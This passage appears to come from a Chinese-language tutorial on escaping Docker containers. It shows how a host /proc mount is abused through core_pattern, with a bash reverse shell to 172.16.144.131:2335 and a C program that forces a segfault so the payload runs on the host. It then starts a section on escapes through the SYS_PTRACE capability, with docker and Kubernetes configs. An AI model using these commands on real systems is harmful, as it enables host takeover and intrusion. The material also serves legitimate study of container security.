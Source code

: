 因为宿主机内的 /proc 文件被挂载到了容器内的 /host_proc 目录，所以我们修改 /host_proc/sys/kernel/core_pattern 文件以达到修改宿主机 /proc/sys/kernel/core_pattern 的目的

```bash
echo -e "|/var/lib/docker/overlay2/b98243e88aa59207f1f350fbd9e837bc095fe159a173a63f5a38597ae9dac26d/diff/flag.sh \rcore "> /host_proc/sys/kernel/core_pattern

#	Exp内容

#!/bin/bash
bash -i >& /dev/tcp/172.16.144.131/2335 0>&1

```

此时我们还需要一个程序在容器里执行并触发 segmentation fault 使植入的 payload 即 exp.sh 在宿主机执行

```c
	#include <stdio.h>
	int main(void)
	{
	    int *a = NULL;
	    *a = 1;
	    return 0;
	}
```

当容器内的 segmentation fault 被触发时，我们就达到了逃逸到宿主机在容器外执行任意代码的目的

## SYS_PTRACE

条件：SYS_PTRACE capabilities 权限赋予容器

`--cap-add=SYS_PTRACE `，或 Kubernetes PODS 设置 `securityContext.capabilities `为 `SYS_PTRACE`

```bash
sudo docker run  --cap-add=SYS_PTRACE -it vulhub/confluence:7.13.6 bash

#yaml
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  shareProcessNamespace: true
  containers:
  - name: nginx
    image: nginx
  - name: shell
    image: busybox:1.28
    securityContext:
      capabilities:
        add:
        - SYS_PTRACE
    stdin: true
    tty: true
```
